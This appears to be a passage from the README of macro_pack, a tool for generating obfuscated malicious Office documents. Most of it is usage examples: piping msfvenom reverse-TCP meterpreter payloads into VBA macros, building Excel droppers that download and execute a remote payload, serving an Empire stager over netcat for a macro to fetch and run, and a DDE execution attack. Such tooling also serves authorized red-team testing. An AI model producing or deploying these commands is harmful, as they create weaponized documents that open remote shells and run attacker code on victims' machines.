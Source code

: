 If you want to produce a standalone exe using pyinstaller:  
* Install pyinstaller: pip install pyinstaller
* Install PyCrypto at http://www.voidspace.org.uk/python/pycrypto-2.6.1/  
* Double-click on the "build.bat" script on a Windows machine.  

The resulted macro\_pack.exe will be inside the **bin** directory.  

**Note:** pycrypto is not available for python after 3.4. If you want pyinstaller encryption, do not use latest python version.


## Some examples

### macro\_pack community

- Obfuscate the vba file generated by msfvenom and put result in a new vba file.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba
```

- Obfuscate Empire stager vba file and generate a MS Word document: 
```bash
macro_pack.exe -f empire.vba -o -G myDoc.docm
```

- Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
```bash
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 
```

- Create a word 97 document containing an obfuscated VBA reverse meterpreter payload inside a share folder: 
```bash
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G \\REMOTE-PC\Share\meter.doc   
```

- Download and execute Empire Launcher stager without powershell.exe by using DROPPER_PS template
```bash
# 1 Generate a fiez containing Empire lauchcher 
# 2 Make that file available on web server, ex with netcat:
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat empire_stager.cmd; } | nc -l -p 6666 -q1
# 3 Use macro\_pack  to generate DROPPER_PS payload in Excel file
echo http://10.5.5.12:6543/empire_stager.cmd | macro_pack.exe -o -t DROPPER_PS -G join_the_empire.xls
# 4 When executed on target, the macro will download PowerShdll, run it with rundll32, and download and execute stager.
```

- Execute calc.exe via Dynamic Data Exchange (DDE) attack
```bash
echo calc.exe | macro_pack.exe --dde -G calc.xslx
```
